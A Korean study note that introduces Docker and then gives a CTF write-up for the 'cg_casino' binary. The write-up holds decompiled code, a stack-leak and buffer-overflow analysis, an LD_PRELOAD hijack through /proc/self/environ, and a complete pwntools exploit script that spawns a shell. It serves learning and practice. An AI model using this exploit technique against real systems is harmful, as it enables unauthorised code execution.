


# Docker
***
도커는 컨테이너 기반의 오픈소스 가상화 플랫폼이다. 

### 컨테이너
컨테이너는 프로그램 및 실행환경을 추상화하고 동일한 인터페이스를 제공하여 프로그램의 배포 및 관리를 단순화 <br/><br/>


컨테이너는 격리된 공간에서 프로세스가 동작하는 기술이다.
- 하나의 서버에 여러 개의 컨테이너를 실행하면 서로 영향을 미치지 않고 독립적으로 실행됨
- 실행 중인 컨테이너에 접속하여 명령어를 입력할 수 있고 apt-get이나 yum으로 패키지를 설치 가능

컨테이너를 실행하는 명령어 및 옵션은 다음과 같다.
```docker run [OPTIONS] IMAGE[:TAG|@DIGEST] [COMMAND] [ARG...]```

옵션 | 설명
-----|-------
-d | detached mode 흔히 말하는 백그라운드 모드
-p | 호스트와 컨테이너의 포트를 연결 (포워딩)
-v | 호스트와 컨테이너의 디렉토리를 연결 (마운트)
-e | 컨테이너 내에서 사용할 환경변수 설정
–name | 컨테이너 이름 설정
–rm	| 프로세스 종료시 컨테이너 자동 제거
-it	| -i와 -t를 동시에 사용한 것으로 터미널 입력을 위한 옵션
–link |	컨테이너 연결 [컨테이너명:별칭]

### 이미지
이미지는 컨테이너 실행에 필요한 파일과 설정값 등을 포함하고 있는 것 (컨테이너를 실행하기 위한 모든 정보를 가지고 있다.) <br/><br/>
도커는 이미지를 만들기 위해 Dockerfile 이라는 파일에 이미지 생성 과정을 저장한다. <br/><br/>

Dockerfile 기본 명령어
> FROM
```
FROM <image>:<tag>
```
- 베이스 이미지를 지정

> MAINTAINER
```
MAINTAINER <name>
```
- Dockerfile을 관리하는 사람의 이름 또는 이메일 정보를 적는다.

> ADD
```
ADD <src>... <dest>
```
- src에 파일 대신 ULR을 입력할 수 있고 src에 압축 파일을 입력하는 경우 자동으로 압축 해제되면서 복사된다.

> RUN
```
RUN <command>
```
- 명령어를 그대로 실행 (내부적으로 /bin/sh -c 뒤에 명령어를 실행하는 방식)

> CMD
```
CMD ["executable","param1","param2"]
```
- 도커 컨테이너가 실행되었을 때 실행되는 명령어를 정의
- 빌드할 때는 실행되지 않으며 여러 개의 CMD가 존재할 경우 가장 마지막 CMD만 실행됨

> VOLUME
```
VOLUME ["/data"]
```
- 컨테이너 외부에 파일 시스템을 마운트 할 때 사용

### 레이어 저장 방식



이미지는 여러 개의 read-only 레이어로 구성되고 파일이 추가되거나 수정되면 새로운 레이어가 생성된다. 따라서 수정된 레이어가 존재하면 해당 레이어만 다시 다운 받으면 된다. <br/><br/>
컨테이너를 생성할 때도 레이어 방식을 사용한다. <br/>
기존의 이미지 레이어 위에 read-write 레이어를 추가하고 컨테이너 실행 중에 생성하는 파일이나 변경된 내용을 해당 레이어 저장한다.

### Docker Compose
여러 개의 컨테이너 옵션과 환경을 정의한 파일을 (설정 파일을 YAML 방식을 사용) 읽어 컨테이너를 순차적으로 생성하는 방식으로 동작한다. <br/><br/>

베이스 이미지 지정 : 
>image
- Docker 컨터에너의 기반이 되는 베이스 이미지 지정
- 이미지명 또는 이미지 ID를 입력
- 로컬 환경에 베이스 이미지가 있다면 해당 이미지를 사용, 없다면 Docker Hub에서 자동으로 다운로드 받아 사용
> build
- Dockerfile에 이미지 구성을 저장하고 이를 자동으로 build 하여 베이스 이미지로 지정
> volumes
- 컨테이너에 볼륨을 마운트
- 호스트에서 마운트하는 경로를 지정할 때에는 '호스트의 디렉토리 경로:컨테이너의 디렉토리 경로' 형식을 사용
- 볼륨을 read-only로 마운트하고자 할 때에는 마지막에 :ro를 붙인다. (설정 파일이 저장된 볼륨의 경우 :ro를 붙여 쓰기를 금지할 수도 있다.)

<br/>

Docker Compose 명령어

서브 커맨드	| 설명
------------|--------
up | 컨테이너 생성 및 구동
scale |	생성할 컨테이너 개수 지정
ps | 컨테이너 목록 확인
logs | 컨테이너 로그 출력
run | 컨테이너 실행
start | 컨테이너 구동
stop | 컨테이너 중지
restart | 컨테이너 재가동
kill | 실행중인 컨테이너 강제 종료
rm | 컨테이너 삭제

c.f) docker-compose exec service_name command : 해당 서비스 (컨테이너)에서 command를 실행한다.

참조 : <br/> 
<https://subicura.com/2017/01/19/docker-guide-for-beginners-2.html> <br/>
<https://miiingo.tistory.com/92>

# 문제
***

cg_casino 바이너리의 checksec 결과는 다음과 같다. 
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

file 명령어의 결과는 다음과 같다.
```
cg_casino: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 2.6.32, BuildID[sha1]=cb488ff7147e77789f60514b77f9ee345c777bde, stripped
```

바이너리 코드

__sub_401108()__
```c
unsigned __int64 __fastcall sub_401108(__int64 a1)
{
  ...
  char buf; // [rsp+13h] [rbp-Dh]
  int v5; // [rsp+14h] [rbp-Ch]
  unsigned __int64 v6; // [rsp+18h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  v5 = 0;
  while ( 1 )
  {
    if ( (unsigned int)read(0, &buf, 1uLL) != 1 )
      exit(-1);
    if ( buf == 10 )
      break;
    v3 = v5++;
    *(_BYTE *)(a1 + v3) = buf;
  }
  v1 = v5++;
  *(_BYTE *)(v1 + a1) = 0;
  return __readfsqword(0x28u) ^ v6;
}
```

__sub_401108__ 함수 ()의 인자인 a1은 __input_voucher__에서는 __main()__ 함수의 rbp-0x60이고 __merge_voucher__에서는 main 함수의 rbp-0x30이다. <br/>
__sub_401108__ 함수 내에서 read하는 길이를 체크하는 코드가 없기 때문에 stack bof 취약점이 존재한다. 

__sub_4011A7()__
```c
unsigned __int64 sub_4011A7()
{
  __int64 v1; // [rsp+0h] [rbp-50h]
  signed int v2; // [rsp+0h] [rbp-50h]
  signed int i; // [rsp+4h] [rbp-4Ch]
  signed int v4; // [rsp+8h] [rbp-48h]
  int v5; // [rsp+Ch] [rbp-44h]
  unsigned int v6; // [rsp+10h] [rbp-40h]
  unsigned int v7; // [rsp+14h] [rbp-3Ch]
  unsigned int v8; // [rsp+18h] [rbp-38h]
  unsigned int v9; // [rsp+1Ch] [rbp-34h]
  unsigned int v10; // [rsp+20h] [rbp-30h]
  unsigned int v11; // [rsp+24h] [rbp-2Ch]
  int v12[6]; // [rsp+30h] [rbp-20h]
  unsigned __int64 v13; // [rsp+48h] [rbp-8h]

  ...
  LODWORD(v1) = 0;
  while ( (signed int)v1 <= 5 )
  {
    __isoc99_scanf("%u", &v12[(signed int)v1]);
    getchar();
    if ( (unsigned int)v12[(signed int)v1] <= 0x2C )
      LODWORD(v1) = v1 + 1;
    else
      printf("%u : out of range\n", (unsigned int)v12[(signed int)v1], v1);
  }
  puts("===================");
  printf("|%2d|%2d|%2d|%2d|%2d|%2d|\n", v6, v7, v8, v9, v10, v11);
  puts("===================");
  ...
}
```

__sub_4011A7()__ 함수에서 scanf는 unsigned int를 입력으로 받는다. 따라서 내가 입력으로 character를 주면 scanf가 v12[v1]에 입력을 넣지 못하고 printf를 통해서 스택 내에 있는 쓰레기 값을 출력한다. 이를 통해서 스택 주소를 leak할 수 있다.<br/>
__put_voucher__를 한 번 실행하고 위의 취약점을 이용하면 스택 주소가 leak된다. (맨 처음부터 lotto를 실행하면 스택이 아닌 다른 영역의 주소가 leak되므로 lotto를 실행하기 전에 다른 것을 한 번 실행해야 한다.)

## exploit 방법
1. __sub_4011A7()__ 에 존재하는 취약점을 이용해서 스택 주소를 leak한다.
2. leak한 스택 주소를 통해서 __main()__ 의 rbp-0x30의 주소와 &(envp[0])을 알아낸다. (스택의 특정한 위치와 환경 변수 포인터 배열의 위치의 차이는 고정되어 있다. 환경 변수 포인터 배열과 환경 변수 문자열이 저장된 위치 사이의 차이는 고정되어 있지 않다. 프로세스를 실행할 때 마다 환경 변수 포이터 배열과 환경 변수 문자열 사이에 들어가는 쓰레기 값의 길이가 다르다.)
3. __sub_401108()__ 에 존재하는 stack bof 취약점을 이용해서 환경 변수 문자열이 저장되어 있는 부분을 내가 만든 .so 파일의 바이너리 값들로 overwrite한다. (/proc/self/environ 파일은 envp[0]이 가리키는 주소에서 스택 끝까지의 문자열을 저장하고 있는 파일이다. 따라서 해당 영역을 다른 값으로 덮어쓰면 /proc/self/environ 파일은 내가 덮어쓴 값으로 변경된다. 환경 변수 포인터 배열을 다른 값으로 덮어써도 파일이 읽어오는 문자열의 주소는 그대로 유지된다.) 하지만 2번에서 언급했듯이 환경 변수 문자열이 저장되어 있는 위치는 프로세스를 실행할 때 마다 변경된다. (&envp[0] & 0xfffffffffffff000) + (0x1000 * i) - (모든 환경 변수 문자열의 길이) 를 통해서 환경 변수 문자열이 시작하는 주소를 알아낼 수 있다. 그 이유는 스택의 끝 위치가 (&envp[0] & 0xfffffffffffff000) + (0x1000 * i) 이기 때문이다. (스택의 끝은 마지막 12비트가 0이다.) 프로세스를 한 번만 실행하고 위와 같은 bof를 반복함으로써 환경 변수 문자열의 시작 위치를 알아낸다.
4. __merge_voucher__ 를 이용해서 우리가 스택에 쓴 .so 파일의 바이너리 값을 XXXX.so 파일에 쓴다. (.so 파일에는 exit함수를 후킹해서 쉘을 실행하는 코드가 저장되어 있다.)
5.  __sub_401108()__ 에 존재하는 stack bof 취약점을 이용해서 스택에 "LD_PRELOAD=/home/cg_casino/voucher/XXXX.so" 문자열을 저장하고 envp[0]의 값을 위 문자열의 주소로 overwrite한다.
6. __jackpot__ 을 통해서 system 함수를 호출하면 자식 프로세스가 부모 프로세스의 환경 변수 포인터 배열을 참조하기 때문에 exit 함수가 후킹되어 쉘을 딸 수 있다. (system 함수는 fork + wait + exec 의 기능을 수행한다. 실제로 fork 함수와 wait 함수를 실행하지는 않고 exec 계열의 함수는 실행한다.)

__주의할 점 1__ <br/>
.so 파일을 만들 때 gcc의 보안 옵션을 끄지 않으면 .so 파일의 크기가 너무 커서 stack bof를 할 때 segmentation fault가 발생한다. (.so 파일 바이너리의 길이가 환경변수 문자열의 길이보다 길기 때문) 따라서 보안 옵션을 꺼야한다. <br/>
명령어 : gcc -s -nostdlib -Wl,-z,norelro -shared -fPIC -o hawe.so hawe.c (-s : striped, -nostdlib : 링크 시에 기본적인 초기 라이브러리들을 로드하지 않음, -Wl,-z,norelro : relro 적용하지 않음) <br/>
또한 __sub_401108()__ 에서 \x0a가 입력으로 들어오면 함수를 종료하기 때문에 .so 파일에 존재하는 "\x0a"를 다른 값으로 바꿔줘야 한다. "\x0a"가 딱 하나 존재하는데 이 값을 NuLL로 바꾸면 .so 파일이 정상적으로 동작하지 않고 "\x0d"로 바꾸면 정상적으로 동작한다. 

__주의할 점2__ <br/>
/proc/self/environ 파일에 대해 읽기 권한이 없는 경우에는 /proc/pid/environ 파일에 접근해야 하는데 pid는 /proc/loadavg를 통해서 얻을 수 있다고 한다. <br/>
참조 : <https://linkc.tistory.com/83>
 
__주의할 점3__ <br/>
__put_voucher__ 로 bof를 한 뒤에 __merge_voucher__ 를 실행하면 __put_voucher__ 에서 쓴 문자열이 (LD_PRELOAD = ~~) 다른 값으로 overwrite 되기 때문에 __merge_voucher__ 이후에 __put_voucher__ 를 한 번 더 해줘야 한다.

__주의할 점4__ <br/>
p.interactive()를 실행하면 프로세스가 출력한 문자열이 다 출력되어 버린다. 따라서 p.recv()로 해당 문자열을 받을 수 없다. 

__주의할 점5__ <br/>
환경 변수 포인터 배열을 "A"같은 값으로 덮어쓰면 자식 프로세스가 해당 주소로 접근하려고 해서 segmentation fault가 뜨는 듯. 따라서 해당 영역을 NULL로 덮어줘야 한다. 

# 풀이
***
```
#!/usr/bin/python

from pwn import *

def put_vou(voucher):
	p.recvuntil("> ")
	p.sendline("1")
	p.recvuntil(" : ")
	p.sendline(voucher)

def merg_vou(voucher):
	p.recvuntil("> ")
	p.sendline("2")
	p.recvuntil(" : ")
	p.sendline(voucher)

def leak_lotto():
	p.recvuntil("> ")
	p.sendline("3")
	p.recvuntil("=\n")
	p.recvuntil("=\n")
	p.sendline("1")
	p.sendline("2")
	p.sendline("A")
	leak_low=hex(int(p.recvuntil(" :",drop=True)))
	p.recvuntil("\n")
	p.sendline("7")
	p.sendline("A")
	leak_hi=hex(int(p.recvuntil(" :",drop=True)))
	p.recvuntil("\n")
	for i in range(3): p.sendline("7")
	return leak_hi+leak_low[2:]

def jackpot():
	p.recvuntil("> ")
	p.sendline("5")
	p.recvuntil("key\n")
	p.sendline()

file_path="/home/sungyun/round5/cg_casino/share/cg_casino"

#p=process(file_path)
p=remote('127.0.0.1',6677)

put_vou("///////////////proc/self/environ")

stack_leak=int(leak_lotto(),16)
n_vou=stack_leak+0x40
environ=n_vou+0x158
env_len=0xd8a

for i in range(1,17):
	hawe_so=open("./hawe.so",'rb')

	stack_end=environ&0xfffffffffffff000
	stack_end=stack_end+(0x1000*i)
	env_start=stack_end-env_len

	voucher="hawe.so"+"\x00"
	voucher+="LD_PRELOAD=/home/cg_casino/voucher/hawe.so"+"\x00"
	voucher+="A"*(environ-n_vou-len(voucher))
	voucher+=p64(n_vou+8)
	voucher+="\x00"*(env_start-(environ+8))
	voucher+=hawe_so.read()

	hawe_so.close()

	#overwrite_env_arr

	put_vou(voucher)
	merg_vou("///////////////proc/self/environ")
	put_vou(voucher)

	jackpot()

	if p.recvuntil("|________________________|",timeout=0.1):
		continue
	else:
		p.interactive()
```

# 알게 된 것
***
##### 1. gdb에서 envp의 주소는 x/a &__environ을 통해서 알 수 있다. 


